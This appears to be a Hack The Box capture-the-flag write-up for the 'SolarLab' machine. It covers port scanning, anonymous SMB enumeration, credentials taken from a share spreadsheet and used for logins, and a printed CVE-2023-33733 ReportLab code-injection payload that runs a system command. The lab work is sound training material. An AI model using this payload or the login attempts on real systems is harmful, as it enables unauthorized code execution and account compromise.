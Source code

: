 # HTB - SolarLab
https://app.hackthebox.com/machines/SolarLab

Target IP: 10.10.11.16

Nmap scan:
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

PORT    STATE SERVICE       VERSION
80/tcp  open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-07-13T07:28:45
|_  start_date: N/A
|_clock-skew: -7m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Add host to `/etc/hosts`: 10.10.11.16 solarlab.htb

The website has nothing fun.

Scan for vhost?

ffuf -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 404 -t 40

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -c -v -t 50 -fs 169

No vhost found.

ffuf -u https://FUZZ.solarlab.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -v -c -t 40

Enumerate SMB:

Enumerate SMB Shares using Nmap
nmap -p 445 --script smb-enum-shares,smb-enum-users 10.10.11.16

nothing.

List Shares with smbclient
smbclient -L //10.10.11.16 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Documents       Disk
IPC$            IPC       Remote IPC

smbclient //10.10.11.16/Documents -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

Downloaded two file: details-file.xlsx old_leave_request_form.docx

Open details-file.xlsx:

Username	Password
Alexander.knight@gmail.com	al;ksdhfewoiuh
KAlexander	dkjafblkjadsfgl
Alexander.knight@gmail.com	d398sadsknr390
blake.byte	ThisCanB3typedeasily1@
AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn


smbclient //<target_ip>/<share_name> -U <username>
smbclient //10.10.11.16/C -U KAlexander

smbclient //<target_ip>/C$ -U username%password


smbclient //10.10.11.16/C$ -U blake.byte%ThisCanB3typedeasily1@ Failed
smbclient //10.10.11.16/C$ -U AlexanderK%danenacia9234n Failed
smbclient //10.10.11.16/C$ -U ClaudiaS%dadsfawe9dafkn Failed
smbclient //10.10.11.16/C$ -U KAlexander%dkjafblkjadsfgl Failed

smbclient //10.10.11.16/C$ -U Alexander.knight@gmail.com Failed

Need to scan all the ports:
https://github.com/Tib3rius/AutoRecon

With nmap
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

Check port 6791

PORT     STATE SERVICE VERSION
6791/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0

Add to `/etc/hosts`: 10.10.11.16 report.solarlab.htb

![alt text](image.png)


AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn

2 user login failed with notification: user authentication error. Others failed with user not found.

All credentials are not incorrect. But the format of username is "FirstL".

Regconize Blake.byte is invalid, change it to BlakeB pass `ThisCanB3typedeasily1@`and successfully login to the report website.

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

All the subpage are same. Let check the button `Generate PDF`

![alt text](image-6.png)

It generate a PDF file. It insert my uploaded image to the PDF file.

Search on Google: reporthub exploit and got this repo: https://github.com/c53elyas/CVE-2023-33733

the payload
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

See the color attribute -> edit the Justification to add the html tag.

![alt text](image-7.png)


